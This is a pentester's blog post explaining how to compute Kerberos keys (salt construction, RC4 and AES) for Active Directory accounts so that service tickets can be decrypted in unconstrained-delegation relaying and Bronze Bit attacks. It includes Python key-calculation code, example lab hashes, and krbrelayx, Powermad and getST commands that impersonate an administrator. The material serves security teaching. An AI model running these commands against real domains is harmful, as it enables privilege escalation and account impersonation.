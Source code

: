 ```yaml
---
layout: post
title: "A Note on Calculating Kerberos Keys for AD Accounts"
date: 2021-05-21 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, kerberos, unconstrained-delegation, rbcd, bronze-bit, python, krbrelayx, impacket]
---
```


A short memo on how to properly calculate Kerberos keys for different types of Active Directory accounts in context of decrypting TGS tickets during delegation attacks.

<!--cut-->

![banner.png](/assets/images/calculating-kerberos-keys/banner.png)
{:.center-image}

In order to successfully decrypt service TGS we must calculate its Kerberos key first. To do this we should obtain account's password and form the salt:

* For a user/service account the salt is built as uppercase Kerberos realm name + case sensitive username.
* For a computer account the salt is built as uppercase Kerberos realm name + the word `host` + lowercase FQDN hostname.

Let's say the domain name (Kerberos realm) is `megacorp.local`, then for user `Bob_Adm` the salt will be `MEGACORP.LOCALBob_Adm`, and for computer `SRV01$` the salt will be `MEGACORP.LOCALhostsrv01.megacorp.local`.

Based on the "Relaying" Kerberos attack [toolkit](https://github.com/dirkjanm/krbrelayx) (by [@dirkjanm](https://twitter.com/_dirkjan)) the keys can be calculated with the following Python code using [impacket](https://github.com/SecureAuthCorp/impacket):

```python
#!/usr/bin/env python3

from binascii import unhexlify, hexlify

from impacket.krb5 import constants
from impacket.krb5.crypto import Key, string_to_key
from Cryptodome.Hash import MD4

allciphers = {
	'rc4_hmac_nt': int(constants.EncryptionTypes.rc4_hmac.value),
	'aes128_hmac': int(constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value),
	'aes256_hmac': int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value)
}


def printKerberosKeys(password, salt):
	for name, cipher in allciphers.items():
		if cipher == 23:
			md4 = MD4.new()
			md4.update(password)
			key = Key(cipher, md4.digest())
		else:
			fixedPassword = password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
			key = string_to_key(cipher, fixedPassword, salt)

		print(f'    * {name}: {hexlify(key.contents).decode("utf-8")}')


def printMachineKerberosKeys(domain, hostname, hexpassword):
	salt = b'%shost%s.%s' % (domain.upper().encode('utf-8'), hostname.lower().encode('utf-8'), domain.lower().encode('utf-8'))
	rawpassword = unhexlify(hexpassword)
	print(f'{domain.upper()}\\{hostname.upper()}$')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)


def printUserKerberosKeys(domain, username, rawpassword):
	salt = b'%s%s' % (domain.upper().encode('utf-8'), username.encode('utf-8'))
	rawpassword = rawpassword.encode('utf-16-le')
	print(f'{domain.upper()}\\{username}')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)
```

When performing the ["Relaying" Kerberos attack](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) against an unconstrained delegation **computer** account, the adversary will use `krbrelayx.py` as follows:

```console
# Calculate the AES key automatically
~$ krbrelayx.py --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local --krbhexpass 16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d
# Pre-calculate the AES key and pass it as an argument
~$ krbrelayx.py -aesKey 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
```

```python
printMachineKerberosKeys(
	domain='megacorp.local',
	hostname='SRV01',
	hexpassword='16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d'
)

"""
MEGACORP.LOCAL\SRV01$
    * Salt: MEGACORP.LOCALhostsrv01.megacorp.local
    * rc4_hmac_nt: 1b8112a5c2eb2c45ba045efdca7c4848
    * aes128_hmac: 7c91cca5c6a7c1f961d977a7f3332273
    * aes256_hmac: 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
"""
```

When performing this attack against an unconstrained delegation **user** account, the adversary does not need to calculate the salt because the ticket it encrypted with RC4 by default (not salted NT hash used as key):

```console
~$ krbrelayx.py -hashes :fc525c9683e8fe067095ba2ddc971889
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='Bob_Adm',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\Bob_Adm
    * Salt: MEGACORP.LOCALBob_Adm
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 79505a4518150188087e722dec3b2567
    * aes256_hmac: b628f4549bd8c9e18b9573075a2db50a08aff7982be3185923af87ec2bffddc5
"""
```

On the other hand, when performing the [Bronze Bit attack](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) (by [@jakekarnes42](https://github.com/jakekarnes42)), the adversary leverages a fake service account (see [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) to request the ticket which brings back AES encryption with salt (PBKDF2 from salted password used as key). Despite the fact that Powermad's function for adding fake accounts is called `New-MachineAccount`, it's actually a **service** account and the Kerberos keys should be calculated with `printUserKerberosKeys` function in terms of this note:

```console
PS > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
~$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3 -force-forwardable
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='fakemachine',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\fakemachine
    * Salt: MEGACORP.LOCALfakemachine
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 3a2a5d368927e4ac0948c76b2e5e998b
    * aes256_hmac: de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3
"""
```

The same calculation can be done with [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372), [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/ConvertTo-KerberosKey.md#convertto-kerberoskey) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::hash` function.
